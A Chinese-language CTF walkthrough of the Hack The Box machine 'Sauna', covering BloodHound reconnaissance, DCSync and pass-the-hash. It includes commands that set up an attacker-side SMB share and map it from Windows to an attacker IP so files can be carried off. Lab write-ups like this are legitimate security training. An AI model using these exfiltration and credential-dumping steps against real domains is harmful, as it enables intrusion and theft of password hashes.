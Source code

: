 ```yaml
---
description: SharpHound, BloodHound, Active Directory, ASREPRoasting,DCSync Attack
---
```


# Hack the box - Sauna

{% embed url="https://0xdf.gitlab.io/2020/07/18/htb-sauna.html#shell-as-fsmith" %}

注意事项

在使用sharphound收集AD信息时，不要使用kali自带的sharphound，需要从github上下载最新的bloodhound.exe.

{% embed url="https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html" %}

## Data Exfiltration，数据渗漏

当需要从windows传送文件到kali上时，可以使用netcat。大致思路是在kali上下载好nc.exe，使用python3 -m http.server 这个指令启动一个临时的http服务器。在Windows上将nc.exe下载并使用nc.exe 和kali自带的netcat传送文件。

在使用python impacket中的smb模组时，用impacket-smbserver指令，而不是smbserver.py。当我在使用smbserver.py时，我的kali出现了鼠标光标变成十字状的情况。当使用impacket-smbserver时，需要加上-smb2support，windows net.exe不支持smb1。

```
# Kali Command:
sudo impacket-smbserver -smb2support smb samba_share
# smb 是 smb share 的名字，samba_share是本地文件夹的名字。

# Windows Command:
net use \\10.10.16.3\smb
cd \\10.10.16.3\smb # 将当前的文件夹转到smb
# 注意使用smb而不是samba_share作为Windows上smb share的名字
```

## 数据处理

在将SharpHound.exe产生的zip文件传到kali后，用Upload Data而不是Import Graph来导入文件。

## DCSync 攻击

{% embed url="https://blog.netwrix.com/2021/11/30/what-is-dcsync-an-introduction" %}
关于DCSync 攻击不错的文章
{% endembed %}

总结一下文章的内容就是一些拥有

* Replicating Directory Changes
* Replicating Directory Changes All

权限的账户可以通过request domain replication获得用户密码的哈希函数（hash）。

## 通过WMI和Hash提权

{% embed url="https://www.ired.team/offensive-security/privilege-escalation/pass-the-hash-privilege-escalation-with-invoke-wmiexec" %}

